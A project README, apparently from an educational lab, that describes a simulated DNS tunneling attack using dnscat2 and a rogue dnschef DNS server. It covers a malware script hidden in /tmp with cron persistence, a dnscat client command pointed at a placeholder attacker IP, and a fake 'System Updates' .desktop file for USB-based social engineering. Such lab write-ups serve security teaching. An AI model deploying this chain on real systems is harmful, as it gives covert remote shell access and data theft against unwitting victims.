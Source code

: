 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
  
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain (e.g., *.tunnel.local) to the attacker's IP, enabling covert C2 communication.
  
   ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)
   
   ![image](https://github.com/user-attachments/assets/ad52b1bb-ce61-487c-9985-94572dbec7a6)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
  
- `/malware`: 🐛 Malware Creation and Deployment
A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
   ![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 ### 🔒 Stealthy Deployment
  -Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
  -Sets execution permissions for silent execution
 ### 🌐 C2 Initialization
  -Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
  -Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
   -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ### 💾 Infection Method:
   -Delivered via USB drive
   
- `/dnscat2`: 🧠 dnscat2 C2 Server Setup
  To complete the DNS tunneling setup, the attacker's environment includes running both the **dnscat2 C2 server** and the **dnschef fake DNS server** in parallel.
 ### ⚙️ dnscat2 Installation & Setup
 -Installs Ruby
 
   ![image](https://github.com/user-attachments/assets/412d31fa-7da7-4a84-b466-45ad59f421d7)
    
 -Clones the dnscat2 repository from GitHub to your local machine.
    
   ![image](https://github.com/user-attachments/assets/45db2ad5-10ac-4d9e-92b7-5f52021338b4)
    
 -Change directory to the dnscat2 server folder and Installs Ruby's dependency manager Bundler
    
   ![image](https://github.com/user-attachments/assets/68e13608-4294-4269-ad63-0db40c084a6d)
    
 -installs any required Ruby gems defined in the Gemfile
    
   ![image](https://github.com/user-attachments/assets/3434ca66-218e-414c-b7f3-24b3a0abca4e)
    
 -Launches the dnscat2 server, enabling it to listen for DNS queries and manage inbound communication.
  
   ![image](https://github.com/user-attachments/assets/b6bb6cac-e639-4358-b740-28270d4a04f6)
    
   (‼️ Important: Both the dnscat2 server and dnschef must run simultaneously)
   
- `/Autorun`:💾 USB-Based Delivery via `.desktop` File
  A fake `.desktop` file is used to trick users into executing a malicious script (`malware.sh`) from a USB drive. This method simulates social engineering by mimicking a legitimate system update.
### 🧿 File Example: `System Autorun.desktop`

   ![image](https://github.com/user-attachments/assets/d376af3e-9704-4379-ae58-f985797e7dbc)

-Name=System Updates: Displays a trusted label to trick the user.

-Exec=/bin/bash /media/$USER/USB/malware.sh :Executes the hidden script from the USB.

-Icon=system-software-update: Uses a familiar system icon to avoid suspicion.

-Type=Application: Treated as an executable app.

-Terminal=false: Runs silently without opening a terminal window.
    
- `/tunnel execution`: 🎯 Execution and Session Establishment
  
  -When the victim clicks the malicious .desktop file, malware.sh is executed.
  -This triggers a DNS tunnel connection to the attacker's dnscat2 C2 server.
  -A stealthy session is created, giving the attacker remote shell access.
  
   ![image](https://github.com/user-attachments/assets/ddb593fb-d9d8-4806-aea1-7439cdf3c076)

-`/result_screen shoots`:🛠 Post-Execution Actions
### Attacker can now:
  -Run remote commands
  -Monitor user activity
  -Extract sensitive data
  
   ![image](https://github.com/user-attachments/assets/92ff7011-2ee0-4a54-ae2f-08feefc32e81)

   ![image](https://github.com/user-attachments/assets/0dc1c90a-b731-422f-9393-9239207e2e55)

   ![image](https://github.com/user-attachments/assets/f7583d55-734f-4987-b58c-1a2794e56f8b)

   ![image](https://github.com/user-attachments/assets/4a8df170-2232-41c5-ac18-2efb355f1991)

   ![image](https://github.com/user-attachments/assets/4bfa987e-5d3a-480e-824e-80595ca2ea00)

   ![image](https://github.com/user-attachments/assets/a8bac9d6-28bb-403a-be7f-ba206d0ed789)
   
   ![image](https://github.com/user-attachments/assets/be0fc7a7-7857-43f1-a04e-0635634b9e0a)
   
  ![image](https://github.com/user-attachments/assets/a3baf20d-ce75-4fd7-a715-cd4706eccf8d)

  ![image](https://github.com/user-attachments/assets/ea02f761-961a-408e-bf22-596916e91812)


## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby malware connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.

